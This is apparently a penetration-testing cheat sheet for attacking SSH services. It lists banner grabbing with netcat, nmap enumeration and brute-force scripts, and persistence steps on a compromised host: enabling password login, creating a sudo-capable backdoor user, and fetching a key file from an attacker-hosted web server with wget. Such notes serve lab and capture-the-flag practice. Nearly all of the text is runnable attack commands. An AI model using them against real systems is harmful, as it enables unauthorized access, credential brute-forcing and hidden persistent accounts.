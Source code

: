 # Port 22 SSH

## Enumeration

Application:
Version:
Protocol:
RSA-key-fingerprint:
Takes-password:
Username:Gobuster
Password:

- Banner Grab

 	  nc -nv <target_address> 22
 
- nmap script scan

	  nmap --script=ssh-auth-methods.nse,ssh-hostkey.nse,ssh-publickey-acceptance.nse,ssh-run.nse,ssh2-enum-algos.nse,sshv1.nse -p 22 <target_address>

If you have usernames/passwords test login with username@IPADDRESS

## bruteforce with nmap

	nmap --script=ssh-brute.nse -p 22 <target_address>
	
## Connect without executing .bash_rc and other profile scripts

	ssh -t <username>@<target_address> /bin/sh

## Create SSH User
    
- ### Create user
  
  (target machine)
  replace/modify sshd_config to allow password login
  
	  service sshd restart
	  
	  adduser <new_user>
	  passwd <new_user_password>
	  usermod -aG sudo <new_user>
	  
	  ssh <new_user>@<target_address>
	  cd ~
	  sudo echo test > testfile
	  ls testfile
 
- ### Upload user public key
  (1. attacker machine)
  
	  ssh-keygen
	  python -m SimpleHTTPServer <unused_port>

  (2. target machine)

	  wget <attacker_address>:<unused port>/<key_file_path>


